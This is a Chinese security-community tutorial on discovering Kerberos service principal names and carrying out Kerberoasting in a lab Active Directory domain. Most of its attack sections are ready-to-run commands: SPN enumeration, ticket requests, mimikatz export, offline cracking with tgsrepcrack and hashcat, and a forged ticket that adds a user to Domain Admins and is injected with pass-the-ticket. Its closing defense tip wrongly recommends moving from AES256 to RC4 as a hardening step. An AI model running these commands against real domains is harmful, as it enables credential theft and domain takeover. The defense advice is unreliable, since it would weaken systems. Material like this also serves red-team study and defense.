# SPN注册发现与利用方法 - 先知社区

SPN注册发现与利用方法

- - -

## 基本介绍

SPN(ServicePrincipal Names，服务主体名称)是服务实例(比如：HTTP、SMB、MySQL、SQLServer等服务)的唯一标识符，Kerberos认证过程使用SPN将服务实例与服务登录账户相关联，如果要使用Kerberos协议来认证服务，那么必须正确配置SPN，如果在整个林或域中的计算机上安装多个服务实例，则每个实例都必须具有自己的SPN才行，如果客户端使用多个名称进行身份验证，则给定服务实例可以具有多个SPN。SPN始终包含运行服务实例的主机的名称，因此服务实例可以为其主机的每个名称或别名注册SPN，一个用户账户下可以有多个SPN，但一个SPN只能注册到一个账户。在内网中SPN扫描通过查询向域控服务器执行服务发现，这对于红队而言可以帮助他们识别正在运行重要服务的主机，例如：终端，交换机等，SPN的识别是kerberoasting攻击的第一步。

## SPN分类

SPN大体上可以分为两类，一种注册在AD的机器账户下，另一种注册在域用户账户下：

-   当一个服务的权限为一个域用户，SPN注册在域用户帐户(Users)下
-   当一个服务的权限为Local System或Network Service，SPN注册在机器帐户(Computers)下

## SPN配置

在SPN的语法中存在四种元素，两个必须元素和两个额外元素，其中 <service class=""> 和 <host> 为必须元素，具体格式如下：</host></service>

```plain
<service class>/<host>:<port>/<service name>
```

参数说明：

-   <service class="">：标识服务类的字符串，可以理解为服务的名称，常见的有WWW、MySQL、SMTP、MSSQL等；必须元素</service>
-   <host>：服务所在主机名，host有两种形式，FQDN(win7.xie.com)和NetBIOS(win7)名；必须元素</host>
-   <port>：服务端口,如果服务运行在默认端口上,则端口号(port)可以省略；额外元素</port>
-   <service name="">：服务名称,可以省略；额外元素</service>

## SPN注册

SetSPN是一个本地Windows二进制文件，可用于检索用户帐户和服务之间的映射，该实用程序可以添加，删除或查看SPN注册(只有root账号或域管理员账号才有权限注册SPN，普通域用户注册SPN会提示权限不够)

```plain
setspn -S MySQL/win7-test.hacke.testlab:3306/MySQL Al1ex  //在主机win7-test上为Al1ex用户注册SPN服务
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161132-6d5f85fe-7e0e-1.png)  
之后可以执行以下命令查看Al1ex用户的SPN：

```plain
setspn -L Al1ex
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161152-79933366-7e0e-1.png)

## SPN发现

由于每台服务器都需要注册用于Kerberos身份验证服务的SPN，因此在不进行大规模端口扫描的情况下可以通过SPN发现来收集有关内网域环境的信息

### SetSPN

windows系统自带的setspn可以用于查询域内的SPN：

a、查看所有的SPN

```plain
setspn  -Q  */*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161250-9c06a838-7e0e-1.png)

b、查看指定域的SPN

```plain
setspn -T hacke.testlab -Q */*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161309-a7561b4c-7e0e-1.png)

c、查找域内重复SPN

```plain
setspn -X
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161334-b65bf8e6-7e0e-1.png)

d、删除指定的SPN

```plain
setspn -D MySQL/win7-test.hacke.testlab:3306/MySQL Al1ex
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161354-c2482508-7e0e-1.png)  
删除之后再次查看：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161406-c8eb6316-7e0e-1.png)

e、查找用户/主机名SPN

```plain
setspn -L usernaem/hostname
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161449-e2cd4bdc-7e0e-1.png)

### Empire

PowerShell Empire还有一个可显示域帐户的服务主体名称(SPN)的模块

```plain
usemodule situational_awareness/network/get_spn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161609-12b8184a-7e0f-1.png)  
但是笔者这边执行之后结果并不理想：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161625-1c404586-7e0f-1.png)

### Impacket

服务主体名称(SPN)也可以从未加入域的系统中发现，impacket工具包下的python版GetUserSPNs可以为我们做到这点，但是，无法使用基于token的身份验证，因此与Active Directory进行通信需要获取有效的域凭证

```plain
./GetUserSPNs.py -dc-ip 192.168.188.2 hacke.testlab/testuser
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161747-4d091e86-7e0f-1.png)

### powersploit

Powersploit框架集成了很多的Powershell脚本，其中PowerView可用于查看SPN信息：

```plain
Import-Module .\PowerView.ps1
Get-NetUser -SPN
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161811-5b2f76b8-7e0f-1.png)

### PowerShellery

Scott Sutherland在将Get-SPN模块实现到Empire之前，已经创建了多个Powershell脚本作为PowerShellery的一部分，可以为各种服务收集SPN，其中一些需要PowerShell v2.0的环境，还有一些则需要PowerShell v3.0环境

```plain
Import-Module .\Get-SPN.ps1
Get-SPN -type service -search "*"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161853-7446a7c0-7e0f-1.png)  
结果我们也可以将其转换为表格的形式，以便于我们的浏览:

```plain
Get-SPN -type service -search "*" -List yes | Format-Table
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108161913-8058cf3e-7e0f-1.png)

获取UserSID，服务和实际用户:

```plain
Import-Module .\Get-DomainSpn.psm1
Get-DomainSpn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162040-b40ce0e0-7e0f-1.png)

### GetUserSPNs

Tim Medin开发了一个PowerShell脚本，它是kerberoast([https://github.com/nidem/kerberoast)工具包的一部分，可以帮助我们查询活动目录，以发现仅与用户帐户相关联的服务(域用户账号查看](https://github.com/nidem/kerberoast)%E5%B7%A5%E5%85%B7%E5%8C%85%E7%9A%84%E4%B8%80%E9%83%A8%E5%88%86%EF%BC%8C%E5%8F%AF%E4%BB%A5%E5%B8%AE%E5%8A%A9%E6%88%91%E4%BB%AC%E6%9F%A5%E8%AF%A2%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%EF%BC%8C%E4%BB%A5%E5%8F%91%E7%8E%B0%E4%BB%85%E4%B8%8E%E7%94%A8%E6%88%B7%E5%B8%90%E6%88%B7%E7%9B%B8%E5%85%B3%E8%81%94%E7%9A%84%E6%9C%8D%E5%8A%A1(%E5%9F%9F%E7%94%A8%E6%88%B7%E8%B4%A6%E5%8F%B7%E6%9F%A5%E7%9C%8B))

```plain
load powershell
powershell_import /root/GetUserSPNs.ps1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162210-e9e95068-7e0f-1.png)  
还有一个VBS脚本也是该工具的一部分，可以为我们提供相同的信息，该脚本可以通过使用本机Windows二进制cscript从Windows命令提示符执行

```plain
cscript.exe .\GetUserSPNs.vbs
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162227-f39c57a4-7e0f-1.png)

### PowerShell AD Recon

除了Tim Medin开发的工具外，Sean Metcalf也开发了各种PowerShell脚本来执行Kerberos侦查，这些脚本是PowerShell AD Recon存储库的一部分，可以在Active Directory中查询服务，例如Exchange，Microsoft SQL，Terminal等。Sean将每个脚本绑定到一个特定的服务，具体取决于你想要发现的SPN，以下脚本将标识网络上的所有Microsoft SQL实例。  
PowerShell AD Recon：[https://github.com/PyroTek3/PowerShell-AD-Recon](https://github.com/PyroTek3/PowerShell-AD-Recon)

```plain
#Discover-PSMSSQLServers.ps1的使用,扫描MSSQL服务
Import-Module .\Discover-PSMSSQLServers.ps1
Discover-PSMSSQLServers

#Discover-PSMSExchangeServers.ps1的使用，扫描Exchange服务
Import-Module .\Discover-PSMSExchangeServers.ps1
Discover-PSMSExchangeServers

#扫描域中所有的SPN信息
Import-Module .\Discover-PSInterestingServices.ps1
Discover-PSInterestingServices
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162255-04bd41ba-7e10-1.png)

### Find-PotentiallyCrackableAccounts

RiskySPN([https://github.com/cyberark/RiskySPN](https://github.com/cyberark/RiskySPN) )的Find-PotentiallyCrackableAccounts脚本可以帮助我们自动识别弱服务票据，主要作用是对属于用户的可用服务票据执行审计，并根据用户帐户和密码过期时限来查找最容易包含弱密码的票据。

```plain
Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts -Domain "hacke.testlab"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162322-148f264e-7e10-1.png)

## SPN利用

### 域内认证

Kerberos认证大致流程如下所示：

-   用户将AS-REQ数据包发送给KDC(Key Distribution Centre，密钥分发中心，此处为域控)，进行身份认证
-   KDC验证用户的凭据，如果凭据有效，则返回TGT(Ticket-Granting Ticket，票据授予票据)
-   如果用户想通过身份认证，访问某个服务(如IIS)，那么他需要发起(Ticket Granting Service，票据授予服务)请求，请求中包含TGT以及所请求服务的SPN(Service Principal Name，服务主体名称)
-   如果TGT有效并且没有过期，TGS会创建用于目标服务的一个服务票据，服务票据使用服务账户的凭据进行加密
-   用户收到包含加密服务票据的TGS响应数据包
-   最后服务票据会转发给目标服务，然后使用服务账户的凭据进行解密

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162432-3e6c97d0-7e10-1.png)  
整个过程比较简单，我们需要注意的是，服务票据会使用服务账户的哈希进行加密，这样一来，Windows域中任何经过身份验证的用户都可以从TGS处请求服务票据，然后离线暴力破解。

### 攻击思路

域内的任何一台主机都能够通过查询SPN，向域内的所有服务请求TGS，拿到TGS后对其进行暴力破解，对于破解出的明文口令，只有域用户帐户(Users)的口令存在价值，不必考虑机器帐户的口令(无法用于远程连接)，因此高效率的利用思路如下：  
1、查询SPN，找到有价值的SPN，需要满足以下条件：  
该SPN注册在域用户帐户(Users)下  
域用户账户的权限很高  
2、请求TGS  
3、导出TGS  
4、暴力破解

### 利用步骤

#### 常规实现

1、查询SPN，找到有价值的SPN

```plain
setspn -T hacke.testlab -Q */*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162600-72c1f7fa-7e10-1.png)

2、请求TGS  
单一票据：

```plain
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/win08-server.hacke.testlab"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162622-7fe1129a-7e10-1.png)  
3、导出TGS

```plain
mimikatz # kerberos::list /export
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162646-8de48296-7e10-1.png)  
4、暴力破解(选取RC4的来破解)

```plain
python3 tgsrepcrack.py wordlist.txt 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162709-9bb54248-7e10-1.png)  
之后我们还可以重写该Ticket：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -u 500
```

之后添加用户到域管理员：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -g 512
```

之后使用Mimikatz注入到RAM中：

```plain
kerberos::ptt sql.kirbi
```

之后伪造域管理员账户进行访问域内主机~

#### Rubeus

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162852-d962bdfa-7e10-1.png)  
之后使用hashcat进行离线破解：

```plain
hashcat -m 13100 /root/hash.txt /root/pass.txt --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162922-eb4c56de-7e10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108162940-f5efa1ae-7e10-1.png)

#### Powershell-1

在域内一台主机上以普通用户权限执行：

```plain
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat > 1.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163010-07e9b0b6-7e11-1.png)  
之后保存下来(注意要使用utf-8编码，否则会报错)使用hashcat进行暴力破解：

```plain
hashcat -m 13100 /root/hash.txt /root/pass.txt --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163036-175301ba-7e11-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163050-1faeb44e-7e11-1.png)

#### Powershell-2

使用autokerberoast.ps1([https://github.com/xan7r/kerberoast](https://github.com/xan7r/kerberoast) )来实施攻击：

a、查看所有的SPN信息

```plain
List-UserSPNs
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163118-3048d6ae-7e11-1.png)  
b、查看与域管理员关联的SPN信息

```plain
List-UserSPNs -GroupName "Domain Admins"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163139-3caf42fc-7e11-1.png)  
c、查看指定域名的SPN信息

```plain
List-UserSPNs -Domain "hacke.testlab"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163202-4aab45fe-7e11-1.png)  
d、获取与林中唯一用户SPN相关联的所有票证

```plain
Invoke-AutoKerberoast
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163227-596c5704-7e11-1.png)  
e、从Ticket中提取hash

```plain
python autoKirbi2hashcat.py hash.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163249-66d73ae4-7e11-1.png)  
在这里我要做一点小改变：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163308-71e66130-7e11-1.png)  
f、之后暴力猜解hash即可，需要注意前缀哦，记得修改~

#### Empire框架

```plain
Empire: L7HAM3KV) > usemodule credentials/invoke_kerberoast
(Empire: powershell/credentials/invoke_kerberoast) > set Agent L7HAM3KV
(Empire: powershell/credentials/invoke_kerberoast) > execute
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163407-94e3e860-7e11-1.png)  
之后同样进行离线破解即可~

## 防御措施

通过将默认的AES256\_HMAC加密方式改为RC4\_HMAC\_MD5，增加破解难度或者保证服务密码本身为强密码，关键是提高密码的强度
